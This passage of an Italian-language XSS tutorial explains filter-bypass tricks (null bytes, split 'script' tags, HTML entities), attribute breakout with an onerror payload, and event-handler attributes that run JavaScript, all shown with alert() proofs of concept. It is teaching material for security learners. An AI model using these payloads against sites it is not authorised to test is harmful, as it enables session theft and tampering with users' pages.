 Quando l'output viene renderizzato dal browser, esegue il codice JavaScript inserito, in questo caso mostrando un alert con il messaggio "XSS".

## Bypassare i Filtri
Spesso, le applicazioni implementano filtri per prevenire l'iniezione di codice dannoso. Ecco alcune tecniche per bypassare questi filtri:

- Bypassando il Filtro su script

	- Inserire caratteri null `(%00):<scrip%00t>alert("XSS")</scrip%00t>`

	- Spezzare la Parola script: `<scripscriptt>alert("XSS")</scripscriptt>`

## Bypassando il Filtro su < e >

- Utilizzare le entità HTML per rappresentare < e >: `&#60;script&#62;alert('XSS')&#60;/script&#62`;

- Sfruttare l'Output a Proprio Vantaggio:
Un esempio pratico di sfruttamento dell'output è quando un'applicazione restituisce direttamente l'input dell'utente in un attributo HTML. Consideriamo il seguente scenario:

1. Input Utente:		ciao

2. Output:		`<img src="ciao">`

Se vediamo un errore 404 (file not found), significa che l'applicazione inserisce direttamente il nostro input nell'attributo src dell'elemento `<img>`.

## Sfruttare l'onerror
Per sfruttare questa vulnerabilità, possiamo utilizzare l'attributo onerror dell'elemento `<img>`, che viene eseguito quando l'immagine NON può essere caricata:

1. Input Maligno: `" onerror="alert('XSS')`

2. Output: `<img src="" onerror="alert('XSS')">`

Quando il browser tenta di caricare un'immagine con un src vuoto, l'evento onerror viene attivato ed esegue il codice JavaScript, mostrando un alert con il messaggio "XSS".

## Altri Attributi HTML Utilizzabili 
Diversi attributi HTML possono essere utilizzati per eseguire JavaScript. Ecco alcuni esempi:

- `<img>:		<img src="invalid.jpg" onerror="alert('XSS')">`

- `<body>:		<body onload="alert('XSS')">`

- `<iframe>:		<iframe src="invalid.html" onerror="alert('XSS')">`

- `<input>:		<input onfocus="alert('XSS')" autofocus>`

- `<div>:		<div onmouseover="alert('XSS')">Hover over me!</div>`
